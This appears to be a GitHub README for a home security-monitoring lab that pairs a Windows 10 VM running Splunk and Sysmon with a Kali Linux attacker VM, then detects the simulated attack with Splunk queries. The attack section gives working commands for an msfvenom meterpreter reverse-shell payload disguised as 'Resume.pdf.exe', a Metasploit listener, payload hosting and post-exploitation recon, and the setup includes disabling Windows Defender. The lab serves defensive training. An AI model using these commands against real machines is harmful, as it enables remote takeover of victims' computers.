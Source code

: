 🏗️ Quick Overview
Two VMs (Windows 10 + Kali Linux) connected via internal network for controlled malware analysis and SIEM investigation.
Network: 192.168.20.0/24 | Windows: 192.168.20.10 | Kali: 192.168.20.11

🔧 Network Configuration
The Windows machine will utilise the Default NAT setting prior to changing to an internal network to download Splunk enterprise, Sysmon, and download Olaf configuration for Sysmon.

Adapter 1: NAT (internet access)
Adapter 2: Internal Network "intnet"

Set Static IPs on Internal Network:
Windows: 192.168.20.10/24
Kali: 192.168.20.11/24
![image](https://github.com/user-attachments/assets/bfda68a0-3d79-4f02-92ff-57dfb3c2f7be)


🖥️ Windows 10 Setup
1. Install Splunk Enterprise

Download free license version
Install with defaults, access at http://localhost:8000

2. Install Sysmon
powershell# Download Sysmon + Olaf config from GitHub
.\sysmon64.exe -accepteula -i sysmonconfig.xml

4. Configure Splunk Data Input

Create index: endpoint
Head to your Inputs.conf file which will be found in your Splunk>etc>System>local> inputs.conf (If you don't see this file here, copy it over from your 'Default' file)

![image](https://github.com/user-attachments/assets/c63e8e12-651b-49f2-974d-96dbd72daa68)
Input this into your inputs.conf file

5. Create index endpoint
After establishing Splunk is installed, with sysmon added with olaf configuration, head to Splunk via localhost:8000 in Microsoft Edge > Settings > Indexes > New Index > In the Index name field enter "endpoint" and hit save.

6. Change Network Adapter Setting
You can now close and create a snapshot as a baseline, and change the network configuration in Virtualbox via settings > Internal network and ensure the name is the same name used for the Kali Linux machine.

7. Set a static IP Address
Change the network adapter settings and disable DHCP and configure the static IP address to the address we listed earlier. (192.168.20.10)

8. Disable Windows Defender
Turn off Real-time Protection (Settings > Update & Security > Windows Security)

9. Enable RDP
Settings > System > Remote Desktop > Enable


🐧 Kali Linux Setup
Network setup:
Edit connection > Wired connection 1 (Click the cog wheel) > IPv4 settings > Add address 192.168.20.11 - Netmask 24 > Add and then click save. 
To test you are in the same internal network, run the terminal in Linux and ping your Windows machine via the syntax - ping 192.168.20.10 

🎯 Attack Simulation
1. Reconnaissance
nmap -A 192.168.20.10 -Pn
Port 3389 (RDP) should be open

3. Create Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe

5. Start Listener
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.11
set lport 4444
exploit

7. Host Payload
bash# New terminal
python3 -m http.server 9999

8. Execute on Windows🖥️ 

Browse to 192.168.20.11:9999
Download and run Resume.pdf.exe
Verify meterpreter connection

9. 🐧Establish connection to Windows from Linux machine
Run shell in the mepterpreter to establish a connection to the Windows machine.
   ![image](https://github.com/user-attachments/assets/ad2933e0-fc72-4b32-b9c5-f6e321cb6f7c)

10. Run commands to create telemetry for SIEM
On the Linux machine run these three basic recon commands to 
net user
net localgroup
ipconfig

# 🔍 SOC Analysis in Splunk
Initial Detection
splunk
index=endpoint "Resume.pdf.exe"

Process Chain Analysis

splunk Get ProcessGuid from above, then:

index=endpoint <ProcessGuid>
| table _time,ParentImage,Image,CommandLine

Expected: Resume.pdf.exe → cmd.exe → net user/net localgroup/ipconfig

Threat Hunting Query

splunkindex=endpoint EventCode=1 
| where match(Image, "\\.pdf\\.exe$")
| table _time, Computer, Image, CommandLine

![image](https://github.com/user-attachments/assets/60aa3e0b-979c-40d5-8413-01a37a03eb3b)


✅ Validation

Network: Both VMs can ping each other

Splunk: Sysmon events flowing to endpoint index

Attack: Meterpreter session established

Detection: Malware execution visible in Splunk


⚠️ Lab Safety

Isolated network only - no production access

Take VM snapshots before malware execution

Re-enable Windows Defender after testing


Setup time: ~2 hours | Requires: VirtualBox, Windows 10, Kali Linux VMs
